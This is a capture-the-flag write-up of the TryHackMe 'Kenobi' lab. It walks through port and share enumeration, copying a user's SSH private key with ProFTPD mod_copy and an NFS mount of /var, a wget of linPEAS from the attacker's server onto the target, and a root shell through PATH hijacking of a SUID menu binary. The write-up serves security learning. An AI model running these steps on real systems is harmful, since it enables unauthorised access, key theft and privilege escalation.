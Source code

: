 # Kenobi

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `NFS`,  `searchsploit`,  `ssh`,  `SUID file`,  `path_manipulation`

---

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

---

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

<br>

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

<br>

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

<br>

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

<br>

Using the command ```ls``` revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

<br>

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

<br>

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

<br>

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

<br>

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">

Searchsploit gave us 3 possible exploits that could be used.

<br>

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

<br>

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">

<br>

Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">

<br>

After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 <br>

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

<br>

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

<br>

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon running the menu binary, we come across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**

<img style="float: left;" src="screenshots/screenshot10.png">

From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

<br>

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">

<br>

**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**





